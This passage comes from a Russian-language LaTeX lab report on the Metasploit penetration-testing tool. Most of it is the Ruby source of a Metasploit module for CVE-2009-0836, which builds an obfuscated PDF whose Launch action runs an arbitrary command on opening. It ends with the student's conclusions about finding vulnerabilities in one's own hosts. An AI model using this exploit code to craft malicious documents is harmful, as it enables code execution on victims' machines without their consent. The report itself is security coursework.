a Open/Execute action, arbitrary commands can be executed without confirmation
from the victim.
},
'License'        => MSF_LICENSE,
'Author'         => [ 'MC', 'Didier Stevens <didier.stevens[at]gmail.com>', ],
'References'     =>
[
[ 'CVE', '2009-0836' ],
[ 'OSVDB', '55615'],
[ 'BID', '34035' ],
],
'DisclosureDate' => 'Mar 9 2009',
'DefaultTarget'  => 0))

register_options(
[
OptString.new('CMD',        [ false, 'The command to execute.', '/C/Windows/System32/calc.exe']),
OptString.new('FILENAME',   [ false, 'The file name.',  'msf.pdf']),
OptString.new('OUTPUTPATH', [ false, 'The location of the file.',  './data/exploits/']),
], self.class)

end

def run
exec = datastore['CMD']

# Create the pdf
pdf = make_pdf(exec)

print_status("Creating '#{datastore['FILENAME']}' file...")

file_create(pdf)
end

#http://blog.didierstevens.com/2008/04/29/pdf-let-me-count-the-ways/
def n_obfu(str)
result = ""
str.scan(/./u) do |c|
if rand(2) == 0 and c.upcase >= 'A' and c.upcase <= 'Z'
result << "#%x" % c.unpack('C*')[0]
else
result << c
end
end
result
end

def random_non_ascii_string(count)
result = ""
count.times do
result << (rand(128) + 128).chr
end
result
end

def io_def(id)
"%d 0 obj" % id
end

def io_ref(id)
"%d 0 R" % id
end

def make_pdf(exec)

xref = []
eol = "\x0d\x0a"
endobj = "endobj" << eol

# Randomize PDF version?
pdf = "%%PDF-%d.%d" % [1 + rand(2), 1 + rand(5)] << eol
pdf << "%" << random_non_ascii_string(4) << eol
xref << pdf.length
pdf << io_def(1) << n_obfu("<</Type/Catalog/Outlines ") << io_ref(2) << n_obfu("/Pages ") << io_ref(3) << n_obfu("/OpenAction ") << io_ref(5) << ">>" << endobj
xref << pdf.length
pdf << io_def(2) << n_obfu("<</Type/Outlines/Count 0>>") << endobj
xref << pdf.length
pdf << io_def(3) << n_obfu("<</Type/Pages/Kids[") << io_ref(4) << n_obfu("]/Count 1>>") << endobj
xref << pdf.length
pdf << io_def(4) << n_obfu("<</Type/Page/Parent ") << io_ref(3) << n_obfu("/MediaBox[0 0 612 792]>>") << endobj
xref << pdf.length
pdf << io_def(5) << "<</Type/Action/S/Launch/F << /F(#{exec})>>/NewWindow true\n" + io_ref(6) + ">>" << endobj
xref << pdf.length
pdf << endobj
xrefPosition = pdf.length
pdf << "xref" << eol
pdf << "0 %d" % (xref.length + 1) << eol
pdf << "0000000000 65535 f" << eol
xref.each do |index|
pdf << "%010d 00000 n" % index << eol
end
pdf << "trailer" << n_obfu("<</Size %d/Root " % (xref.length + 1)) << io_ref(1) << ">>" << eol
pdf << "startxref" << eol
pdf << xrefPosition.to_s() << eol
pdf << "%%EOF" << eol

end

end
\end{verbatim}

Создает pdf файл с необходимым для запуска содержанием.

\section{Выводы}
В ходе выполнения работы был изучен инструмент тестов на проникновение Metasploit, с его помощью были изучены способы поиска уязвимостей хостов, осуществления атак с использованием найденных уязвимостей. Данный инструмент полезен для получения общей картины уязвимости собственных хостов, что позволит закрыть "дыры" в безопасности.
	
\end{document}
